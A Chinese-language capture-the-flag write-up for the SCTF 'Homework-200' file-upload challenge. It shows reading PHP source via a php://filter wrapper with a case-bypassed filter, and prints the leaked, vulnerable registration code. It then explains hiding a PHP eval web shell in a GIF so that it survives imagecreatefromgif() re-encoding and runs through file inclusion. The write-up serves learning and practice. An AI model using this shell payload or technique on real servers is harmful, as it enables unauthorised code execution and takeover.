

##pt &nbsp; &nbsp;Homework-200 （文件上传类题目）  
####解题过程：
*  先使用'php://filter/read=convert.base64-encode/resource='语句读取登录页面reg.php源码。   
将homework.sctf.xctf.org.cn/homework.php?homework=homework.txt改为homework.sctf.xctf.org.cn/homework.php?homework=php://filter/read=convert.base64-encode/resource=reg.php  发现不行，:-( 反馈为 plz don't read my code， 猜测应该是过滤了read,想办法绕过，尝试Read,顺利读出reg.php的base64格式。[∩_∩]  解码后如下：   
```  
    <html>
    <meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
    </html>
    <?php
    include('./config.php');
    session_start();
    function make_password()
    {
    	$password="";
    	$chars="abcdefghijklmnopqrstuvwxyz1234567890-=!@#$%^&*_";
    	for($i=0;$i<8;$i++)
    	{
    		$password.=$chars[rand(0,46)];
    	}
    	return $password;
    }
    
    if(isset($_POST['captcha_code'])){
    	// code for check server side validation
            $captcha_code = (string)$_POST['captcha_code'];
    	if(empty($_SESSION['captcha_code'] ) || strcasecmp($_SESSION['captcha_code'], $captcha_code) != 0){  
    		 exit('验证码错误');
    	}else{// Captcha verification is Correct. Final Code Execute here!		
    		
    	}
    } else {
    	exit('Get out!');
    }
    //unset($_SEESION['captcha_code']);
    session_destroy();
    if(isset($_POST['upload'])){
    $filename = $_FILES['uploaded']['name'];
    $filetype = $_FILES['uploaded']['type'];
    $filesize = $_FILES['uploaded']['size'];
    $tmpname = $_FILES['uploaded']['tmp_name'];
    $uploaddir = './upload/';
    $target_path = $uploaddir.basename($filename);
    $fileext = substr(strrchr($filename,"."),1);
    if(($fileext == 'gif')&&($filetype == "image/gif")){
    	{
    		if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	}
    	$im =imagecreatefromgif($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".gif";
    	$newimagepath = $uploaddir.$newfilename;
    	imagegif($im,$newimagepath);
    	unlink($target_path);
    }else if(($fileext == 'jpg')&&($filetype == "image/jpeg"))
    {
    	if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	$im =imagecreatefromjpeg($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".jpg";
    	$newimagepath = $uploaddir.$newfilename;
    	imagejpeg($im,$newimagepath);
    	unlink($target_path);
    }else if (($fileext=='png')&&($filetype=="image/png"))
    {
    	if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	$im =imagecreatefromjpeg($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".png";
    	$newimagepath = $uploaddir.$newfilename;
    	imagejpeg($im,$newimagepath);
    	unlink($target_path);
    }
    }
    if(isset($_POST['name'])&&isset($_POST['age']))
    {
    	$name=substr($_POST['name'],0,6);
    	$age=intval($_POST['age']);
    	$username=file_get_contents('./id.txt');
    	$password=make_password();
    	file_put_contents('./id.txt',intval($username)+1);
    	mysql_query("insert into info(username,password,name,pic,age)values('$username',md5('$password'),'$name','$newimagepath',$age)");
    	mysql_close($con);
    	print("生成成功，学号:$username,密码：$password");
    	print("<a href='./index.html'>回主页</a>");
    }
    ?>
```
*  然和呢，发现这题主要是绕过createimagefromgif()函数    
想到这个知识点：https://www.secgeek.net/bookfresh-vulnerability/     
先尝试了jpg、png、gif格式的图片，发现只有gif可以，接下来如何构造自己嵌入了php代码的gif图片呢？   
文章中提到的方法是：取gif图片，经过createimagefromgif()后得到处理后的图片，将前图与后图对比，找到没有被替换的data，然后把这部分替换成自己需要的PHP代码：<?eval($_POST[2])?> 留作后门   
这张图乜放进来，便于大家尝试  

上传成功后在网页上输出经过处理后的和自己上传的那张一模一样的图片，在当前目录下查看这张图片: homework.sctf.xctf.org.cn/homework.php?homework=./upload/1305771078.gif或者homework.sctf.xctf.org.cn/homework.php?homework=upload/1305771078.gif
网页上出现一堆怪异的字符，然后留的后门就有用啦  
推荐firefox下一个非常好用的插件hackbar  
  
  
  
  
###收获总结  
1.  在某些情况下使用php://filter/read=convert.base64-encode/resource=方法查看php源代码  
 问：在什么情况下可以这么干呢  
 当这个某个url中有参数时，即get文件时，可以将参数值替换成php://filter/read=convert.base64-encode/resource=想要的.php,本来是要get到页面所指定的文件，但由于我们的替换和原本代码的不安全，使得有些情况下可以成功的读到php源代码*^_^* 
2.  get到一个php中不安全的函数imagecreatefromgif()   
 相应的解决办法：取gif图片，经过createimagefromgif()后得到处理后的图片，将前图与后图对比，找到没有被替换的data，然后把这部分替换成自己需要的PHP代码：<?eval($_POST[2])?>（你想要实现的语句）  
  
###启示   
 学习和平时刷题时，注意积累PHP中容易出安全问题的函数，并记下为什么出安全问题，以及怎样解决。  
  这样，以后在做PHP相关的题型时，根据代码便可快速知道是什么地方出了问题，然后找到对策。   
  另外，即使不能获取到源代码，由于积累，也可大概判断是什么函数导致安全故障。
